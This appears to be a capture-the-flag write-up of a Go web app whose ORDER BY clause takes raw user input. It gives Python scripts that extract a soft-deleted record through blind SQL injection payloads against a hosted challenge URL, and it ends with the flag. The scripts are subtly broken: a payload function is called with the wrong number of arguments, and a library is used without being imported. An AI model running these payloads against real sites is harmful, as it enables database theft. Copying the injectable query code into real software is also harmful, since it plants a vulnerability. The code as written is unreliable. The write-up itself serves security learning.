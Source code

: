 ## Introduction

![](images/image.png)

Another website, another pictures list, this time it is an album cover list. and the description says that an album was deleted by mistake, so we need to find it.
And we get the source code, which is written in Golang.

## Analysis

Analysing the Code

```go
package main

import (
	"fmt"
	"net/http"

	"github.com/gin-gonic/gin"
	"gorm.io/driver/sqlite"
	"gorm.io/gorm"
)

// define a schema for Cover using GORM Library
type Cover struct {
	gorm.Model
	Url   string `json:"url"`
	Label string `json:"label"`
	gorm.DeletedAt // this is a soft delete
}

func main() {
    // connect to an SQLite database
	db, err := gorm.Open(sqlite.Open("covers.db"), &gorm.Config{})
	if err != nil {
		panic("failed to connect database")
	}

	db.AutoMigrate(&Cover{})

    // create a gin router
	r := gin.Default()
	r.LoadHTMLGlob("templates/*.html")


    // an endpoint that's routed to "/"
	r.GET("/", func(c *gin.Context) {

        // get the query parameter "q" from the url
		q := c.DefaultQuery("q", "1")
		var covers []Cover

        // find all the covers, ordered by the query parameter "q"
		db.Order(q).Find(&covers)

        // render the index.html template with the covers
		c.HTML(http.StatusOK, "index.html", gin.H{
			"covers": covers,
		})
	})
	r.Run()
}
```

Two things to note here, the first is that there's a soft delete, which means that the deleted covers are not actually deleted from the database, but they are marked as deleted with the "deleted_at" field name. The second thing is that the only interaction with the database is through the "q" query parameter, which is used to order the covers. So we need to find a way to order the covers by the "deleted_at" field.

## Exploitation

Looking at the task title "Blinding Lights", and seeing that we can control what to put in an order by value, this looks like a Blind SQL Injection. So we need to find a way to order by the "deleted_at" field.

A basic Blind SQL Injection method is by trying to make the database inform me about an information that I want, either time based or error based, os something similar.

Our query to find `select label from covers where deleted_at is not null`.
I aimed to use `Limit` with a function that returns either 1 (true) or 0 (false) to try to test all the testcases.

First step is to find the length of the label, so we can test a testcase with the query `1 limit (select CASE WHEN (select length(label) from covers where deleted_at is not null) == 10 THEN 1 ELSE 0 END)` which returns 1 if the length is 10, and 0 otherwise.

this way makes it easier for me to test, since limiting by 1 will mean there will be an image in the index.html, and limiting by 0 will mean there will be no image in the index.html.

So I wrote a script to test all the testcases:
```python

base_url = "https://blinding-lights.onrender.com/?q="

# generate the payload for the length
def get_length_payload(n):
    return "1 limit (select CASE WHEN (select length(label) from covers where deleted_at is not null) == "+n+" THEN 1 ELSE 0 END)"

def get_length():
    i = 1
    while True:
        url = base_url+get_length_payload(str(i))
        print(url)
        r = requests.get(url)
        # if there's an image, then the length is i (the condition is true)
        if "img" in r.text:
            return i
        print("Testing length: "+str(i))
        i += 1

get_length()

# 8
```

Our lost Album Cover has an 8 characters label. Now we need to find the label itself.
We can bruteforce the label by trying all the characters, and checking if the condition is true or not.

```python

base_url = "https://blinding-lights.onrender.com/?q="
all_chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ:=/? ."

def get_payload(target, n, c):
    return "1 limit (select CASE WHEN (select substring(label, "+n+", 1) from covers where deleted_at is not null) == '"+c+"' THEN 1 ELSE 0 END)"

def get_text(l):
    text = ""

    for i in range(l):
        for c in all_chars:
            url = base_url + get_payload(str(i+1), c)
            print(url)
            r = requests.get(url)
            if "img" in r.text:
                text += c
                print("Found char: "+c)
                break

    return text

get_text(8)

# Her Loss
```

So the label is "Her Loss", yet it is not the flag. Although we know that there's a url field alongside the label, so we try to redo the same process. to end up with the value **"t.ly/TIcqC"**

Downloading the image, we get this content:

![](images/cover.jpeg)

## Conclusion

The Golang language was the first thing a player would interfere, and I gotta say this language is rising in popularity, and it is a good language to learn, and how to use it to create a web server with `Gin`. and interacting with Databases with The `GORM` library. Mixing this with a typical Blind SQL Injection Scenario, and The Soft Delete Concept, I hope it was an interesting task.

## Flag
> `ENIT{TH1s_dE1EETe_WASNt_s0ft_4fAll}`